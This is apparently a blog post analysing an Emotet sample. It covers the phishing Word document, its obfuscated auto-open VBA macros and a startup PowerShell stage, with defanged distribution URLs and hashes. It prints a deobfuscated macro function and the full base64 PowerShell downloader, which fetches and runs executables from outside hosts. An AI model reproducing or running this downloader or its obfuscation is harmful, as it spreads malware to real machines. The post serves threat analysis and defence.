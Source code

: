 ```yaml
---
title: Emotet malware analysis. Part 1.
description: Analyzing Emotet malware, a trojan that is spread via phishing emails, malicious links and targets individuals, companies and governments.
layout: post
permalink: emotet-malware-analysis-part-1
image: "img/emotet_malware/emotet-malware.jpg"
---
```

This is Part 1 of Emotet malware analysis I'm planning to post. It covers phases 1 and 2 of the attack, specifically phishing and establishing persistence in the infected system. Emotet is spread via phishing emails containing malicious links or attachments, and targets everyone (individuals, companies and governments).

## Phase 1. Malicious email and document.

First phase of the attack starts with a Phishing email. Usually subject, layout, attachments and links are modified periodically by attackers. In this article I'm going to analyze [this sample from VirusTotal](https://www.virustotal.com/#/file/f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c/detection "Emotet's attachment sample").

![VirusTotal Sample](../img/emotet_malware/virustotal_sample.jpg){:.post_image}

One of Emotet's characteristics is constantly changing content of the phishing emails. Usually these contain a malicious link or attachment. This article covers the sample which was spread using via following links:

|URL|
|---|
|hxxps://www.tenderheartfoundation.org/knqimf/muwcu-xh8fa-vnewt/|
|hxxp://clyckmedia.com/clientes/ylhq8-zg1ue-iibdnyco/|
|hxxp://noithathopehome.com/8brl9if/hldd-m2v2fy-xavkpbbl/|
|hxxp://cllcanada.ca/2010/lmef-jmlr1n-ftkktgp/|
|hxxp://www.smilefy.com/it3fqqo/rnk6-9mm14-fcnp.view/|
|hxxp://cadsupportplus.com/assets/nwi2z-20bew-ffuwbfmt/|
|hxxp://www.sdhjesov.cz/wordpress/papcc-koe6n-lsric.view/|
|hxxp://bigkidneys.com/42QQXOURJ/gf1lm-hmr0c-lnkcfak/|
|hxxp://compraventachocados.cl/css/hgkhx-lin1b-zjkebwycv/|
|hxxp://cruelacid.com/icon/bmza-8dlyf-jemlc/|
|hxxp://ecommercedefinitivo.com.br/cursos/ryyjt-tnxm7-byxukc/|
|hxxp://annual.fph.tu.ac.th/wp-content/uploads/ikvv-lt7rlt-bqcnmly/|
|hxxp://dbtools.com.br/mailer/ezsvr-mqo7i-zgysfrmwr/|
|hxxp://demu.hu/wp-content/2h2z2-errsh-sxwqgscp/|
|hxxp://georgekiser.com/test/z6uwt-r0459s-rqkv.view/|
|hxxp://wdl.usc.edu/wp-includes/zvlp-s69lox-wrkbb.view/|
|hxxp://dictionary.me/js/bbrj3-tq4eh-izxcuhnb/|
|hxxp://duncaninstallation.com/images/u32g-mdxys3-gjcwkz/|
|hxxp://devpro.ro/misc/3wa1-zykhgf-xcjqnfs/|

All URLs above, once accessed, drop a Microsoft Office Document with macros in it.

|Checksum|File type|File Size|
|---|---|---|
|f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c|MS Word Document|246KB (251904 bytes)|

### Analysis.

Based on the result we get by running `file` command against this sample, it looks like this document has 1 page and doesn't contain any words.

```bash
f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c: Composite Document File V2 Document, Little Endian, 
Os: Windows, Version 6.1, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, 
Create Time/Date: Mon Mar 11 21:32:00 2019, Last Saved Time/Date: Mon Mar 11 21:32:00 2019, Number of Pages: 1, 
Number of Words: 0, Number of Characters: 5, Security: 0
```

Using `Oletools` to get the list of document's objects, 3 macros elements have been found:

```bash
  7:        74 'Macros/PROJECTwm'
  8: M   70540 'Macros/VBA/S1ADDQ1A'
  9: M   14650 'Macros/VBA/YBB1wA'
 10:     49987 'Macros/VBA/_VBA_PROJECT'
 11:      1344 'Macros/VBA/__SRP_0'
 12:       110 'Macros/VBA/__SRP_1'
 13:       436 'Macros/VBA/__SRP_2'
 14:       187 'Macros/VBA/__SRP_3'
 15:       601 'Macros/VBA/dir'
 16: M    9719 'Macros/VBA/mA4QAX4'
 17:      4096 'WordDocument'
```

### Extraction. 

Objects 8, 9 and 16 contain Visual Basic code, thus of higher interest for further analysis.

|Object|Name|Checksum|Size|
|---|---|---|---|
|8|S1ADDQ1A|34ffc69ff37401b965b04fa4f3c1fbcdffab11fd2e34f9e17a8347b70922398b|44KB (44096 bytes)|
|9|YBB1wA|d51c137e3f591a275628e697d2fbb305cc3c630455480508184b45753608d973|8.8KB (8956 bytes)|
|16|mA4QAX4|d2e56d56ced7ed8de5f701a873086c8134e1311dd574a607a45023f38d5ecaf7|5.6KB (5671 bytes)|

Out of all extracted parts of the script, `mA4QAX4` is the _entry point_ and starts the execution once the document is opened. Whole VBS code is obfuscated, as seen in the image below.

![Macros Entry Point](../img/emotet_malware/macros_entry.png){:.post_image}

All three parts are dependent on each other and have to be merged, for further analysis. You can find it [HERE](https://www.virustotal.com/gui/file/50536aaf9cc87b6cf5b3fcd1ef5c11f348737ef28f220872bcbdfb56813c68bc/detection "Merged version").

The call chain looks like this:

1. autoopen();
2. iQwUcAAU(param):
  - Creates **Win32_ProcessStartup** class;
  - Creates an object of the class by calling **Create** method;
  - Passes _param_ string as command argument, thus starting the execution;

Value of _param_ consists of concatenated results of following functions: `SQoBUAA`, `vDXBUQ`, `rDCAQQcA`, `pAADAADD`, `k1kGUAB`, `cAABQDw`. All these functions are similar in terms of logic and were easy to de-obfuscate. Below is the _clean_ version of `SQoBUAA`:

```bash
Function SQoBUAA()
On Error Resume Next
jkQBUx = "l -" + "nop" + " -e" + "n" + "c" + " JA" + "BHA" + "G" + "8Aa" + "wB" + "HA" + "E" + "M" + "AN" + "A" + "B" + "B" + "A" + "D" + "QA" + "PQ" + "A" + "oAC"
lBADQoU = "cAe" + "gBf" + "AC" + "cAK" + "w" + "An" + "AEE" + "AWg" + "AnA" + "CsA" + "Jw" + "Br" + "A" + "G8A" + "RAB"
tcoAAAAQ = "B" + "ACc" + "A" + "K" + "Q" + "A7A" + "CQ" + "AU" + "gBf" + "AEE" + "A" + "a" + "w" + "AxA" + "F8"
HAQUxA_ = "AQQ" + "BBA" + "D0" + "Abg" + "BlA" + "Hc" + "ALQ" + "BvA" + "GI" + "Aa" + "gBl" + "AG" + "MAd" + "A" + "AgA" + "E" + "4" + "A" + "Z" + "QB0" + "A" + "C" + "4A" + "VwB" + "lAG"
tUQokAA = "IA" + "Qw" + "Bs" + "AGk" + "AZQ" + "Bu" + "AH" + "Q" + "A" + "O" + "wA" + "kAG" + "k" + "AVQ" + "Bv" + "AF" + "8AR" + "ABB" + "AD" + "0" + "AK" + "AA" + "n" + "A" + "GgA"
cUAAoX = "d" + "AAn" + "ACs" + "AJw" + "B0" + "AH" + "A" + "AOg" + "A" + "vA" + "C8A" + "Yg" + "B" + "pA" + "G" + "U" + "A" + "ZAB" + "l" + "A" + "H" + "I" + "A" + "bQ" + "Bh"
AkQG_A = "A" + "Cc" + "AKw" + "An" + "AG" + "4AL" + "g" + "B" + "uAG" + "UAd" + "AA" + "vAG" + "wA" + "ZQB" + "zAG" + "wA" + "a" + "QBl"
SQoBUAA = jkQBUx + lBADQoU + tcoAAAAQ + HAQUxA_ + tUQokAA + cUAAoX + AkQG_A
End Function
```

## Phase 2. Persistent Powershell.

A base64 encoded powershell script is extracted and set to run at system's startup, by the document macros.

```powershell
powershell -nop -enc JABHAG8AawBHAEMANABBADQAPQAoACcAegBfACcAKwAnAEEAWgAnACsAJwBrAG8ARABBACcA
KQA7ACQAUgBfAEEAawAxAF8AQQBBAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAGkAVQBvAF8ARABBAD0AKAA
nAGgAdAAnACsAJwB0AHAAOgAvAC8AYgBpAGUAZABlAHIAbQBhACcAKwAnAG4ALgBuAGUAdAAvAGwAZQBzAGwAaQBlAC8AbAAnACsAJwBMAC8AJwArACcAQABoAH
QAdABwADoALwAnACsAJwAvAG4AaQBzAHMAYQAnACsAJwBuAGIAYQAnACsAJwBjAGcAaQBhACcAKwAnAG4AZwAnACsAJwAuAGMAJwArACcAbwBtAC8AdwBwAC0AY
wBvACcAKwAnAG4AdABlAG4AdAAnACsAJwAvAHgAUgAnACsAJwAzAC8AJwArACcAQAAnACsAJwBoAHQAdAAnACsAJwBwADoALwAnACsAJwAvAGUAcQB1AGkAZABh
AGQAZABlAGcAZQBuAGUAcgAnACsAJwBvAC4AJwArACcAaQB6AHQAJwArACcAYQBjAGEAbABhAC4AdQAnACsAJwBuAGEAbQAuAG0AeAAvACcAKwAnAHcAcAAtAGE
AZABtAGkAbgAvACcAKwAnAFgAUABGAC8AQABoAHQAdABwADoALwAvAHcAdwB3AC4AJwArACcAegAnACsAJwBlAHMAdABlAHYAZQBuAHQAJwArACcAcwAuAGMAbw
AvAHcAcAAtACcAKwAnAGkAJwArACcAbgBjAGwAdQBkAGUAcwAvAEcAJwArACcASgBBACcAKwAnAG8ALwBAAGgAdAB0AHAAJwArACcAOgAvAC8AJwArACcAcwB0A
HkAJwArACcAbABpACcAKwAnAHMAaABsAGEAYgAuAHcAZQBiAHAAaQB4AGEAYgB5AHQAJwArACcAZQAnACsAJwAuAGMAJwArACcAbwBtAC8AdAAnACsAJwBoAGoA
bwB3AHIAawA1ACcAKwAnAGUALwA5AFUARwAvACcAKQAuAFMAcABsAGkAdAAoACcAQAAnACkAOwAkAHYAWgBBAEEAQgA0AD0AKAAnAFEAQwBBAEIAJwArACcAQgB
BAFUAJwApADsAJABKAFUAQQBrAEEAQQAgAD0AIAAoACcANAA4ACcAKwAnADYAJwApADsAJABGAGsAWgBBAEQAWgBVAD0AKAAnAGoAJwArACcANABfAEEAQQBCAE
EAJwApADsAJABtAFEAVQBrAHcARwA9ACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAKwAnAFwAJwArACQASgBVAEEAawBBAEEAKwAoACcALgBlACcAK
wAnAHgAZQAnACkAOwBmAG8AcgBlAGEAYwBoACgAJAByAEIAQQBCAEQAbwAgAGkAbgAgACQAaQBVAG8AXwBEAEEAKQB7AHQAcgB5AHsAJABSAF8AQQBrADEAXwBB
AEEALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACQAcgBCAEEAQgBEAG8ALAAgACQAbQBRAFUAawB3AEcAKQA7ACQAQwBYAGsAQQBBADQAQQA9ACgAJwBWADQ
AQgBBACcAKwAnAEEAawBBACcAKQA7AEkAZgAgACgAKABHAGUAdAAtAEkAdABlAG0AIAAkAG0AUQBVAGsAdwBHACkALgBsAGUAbgBnAHQAaAAgAC0AZwBlACAANA
AwADAAMAAwACkAIAB7AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgACQAbQBRAFUAawB3AEcAOwAkAG4ARABBAEEAdwBvAFgAPQAoACcAcwAnACsAJwBvAEEAeABBA
EQAJwApADsAYgByAGUAYQBrADsAfQB9AGMAYQB0AGMAaAB7AH0AfQAkAGMAdwBRAEEAQQBRAHgAPQAoACcARQBCAG8AYwAnACsAJwBBAEEAJwApADsA
```
Once decoded, several URLs pop up which drop phase 3 PE files.

![Decoded powershell](../img/emotet_malware/powershell_decoded.png){:.post_image}

Totally there are 5 different websites, hosting Emotet malware.

|URL|Dropped PE Checksum|Size|
|---|---|---|
|hxxp://biederman.net/leslie/lL/|e76900b9b50306564c415423e0eb28463722b0427186134ba301209b4ed2f440|180KB (183560 bytes)|
|hxxp://nissanbacgiang.com/wp-content/xR3/|5c2fbc0eaae6ccc8342c22325f0aca1e989beec8d578e3fe57722b807a46c773|180KB (183560 bytes)|
|hxxp://equidaddegenero.iztacala.unam.mx/wp-admin/XPF/|bc0d53d74f3f4ef286b4f4caeb8d8b77e32cc17b808dd0de5674842ad713dd72|180KB (183560 bytes)|
|hxxp://stylishlab.webpixabyte.com/thjowrk5e/9UG/|1c06da405051cfc9f68dbb404e338abb90a38db29f86f17e01487ac2c921c05d|251KB (256264 bytes)|
|hxxp://www.zestevents.co/wp-includes/GJAo/|403 HTTP Error|N/A|

## Conclusion.

Looks like the group behind Emotet, haven't focused on heavily obfuscating phase 1 and 2 scripts. Analysis of downloaded samples to follow in Part 2 of this article.